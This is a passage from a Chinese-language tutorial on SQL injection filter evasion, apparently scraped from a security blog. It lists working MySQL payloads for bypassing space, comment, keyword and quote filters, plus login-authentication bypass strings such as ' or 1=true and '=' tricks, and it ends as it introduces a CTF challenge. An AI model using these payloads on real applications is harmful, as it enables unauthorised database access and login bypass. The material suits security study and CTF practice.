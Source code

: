 <div id="RIL_IMG_19" class="RIL_IMG"><img src="/media/posts_images/2017-07-06-1810974038/19"/></div>
<p nodeIndex="224"><span nodeIndex="672">Example:</span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="225">
UNION(SELECT(column)FROM(table))
</pre>
<p nodeIndex="226"><span nodeIndex="673"><strong nodeIndex="674">and/or后插入字符绕过空格</strong></span></p>
<p nodeIndex="227"><span nodeIndex="675">任意混合+ - ~ !可以达到绕过空格的效果（可以现在本地测试，混合后需要的奇偶数可能不同）</span></p>

<pre class="brush:plain;toolbar:false" nodeIndex="229">
SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and-++-1=1;需要偶数个--
SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and!!~~~~!1=1;需要奇数个！
</pre>
<p nodeIndex="230"><span nodeIndex="676">其实一下的字符都可以测试</span></p>
<div id="RIL_IMG_20" class="RIL_IMG"><img src="/media/posts_images/2017-07-06-1810974038/20"/></div>
<p nodeIndex="232"><span nodeIndex="678"><strong nodeIndex="679">注释符&引号</strong></span></p>

<pre class="brush:plain;toolbar:false" nodeIndex="234">
SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and/**/1=1;
SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and"1=1";
</pre>
<p nodeIndex="235"><span nodeIndex="680"><strong nodeIndex="681">编码绕过</strong></span></p>
<div id="RIL_IMG_21" class="RIL_IMG"><img src="/media/posts_images/2017-07-06-1810974038/21"/></div>
<p nodeIndex="237"><span nodeIndex="683"><strong nodeIndex="684">关键字绕过</strong></span></p>
<p nodeIndex="238"><span nodeIndex="685">测试用例information_schema.tables</span></p>
<div id="RIL_IMG_22" class="RIL_IMG"><img src="/media/posts_images/2017-07-06-1810974038/22"/></div>
<p nodeIndex="240"><span nodeIndex="687"><strong nodeIndex="688">认证绕过</strong></span></p>
<p nodeIndex="241"><span nodeIndex="689">绕过语句：'='</span></p>

<pre class="brush:plain;toolbar:false" nodeIndex="243">
select data from users where name="="
select data from users where flase="
select data from users where 0=0
</pre>
<p nodeIndex="244"><span nodeIndex="690">绕过语句：'-'</span></p>

<pre class="brush:plain;toolbar:false" nodeIndex="246">
select data from users where name=''-''
select data from users where name=0-0
select data from users where 0=0
</pre>
<p nodeIndex="247"><span nodeIndex="691">比如登录的时候需要输入email和passwd，可以这样输入</span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="248">
email=''&password=''
</pre>
<p nodeIndex="249"><span nodeIndex="692">类型转换</span></p>

<pre class="brush:plain;toolbar:false" nodeIndex="251">
' or 1=true
' or 1
select * from users where 'a'='b'='c'
select * from users where ('a'='b')='c'
select * from users where (false)='c'
select * from users where (0)='c'
select * from users where (0)=0
select * from users where true
select * from users
</pre>
<p nodeIndex="252"><span nodeIndex="693">我们还有关于此的漏洞，就以一次CTF的题目来说(源码如下)：</span></p>
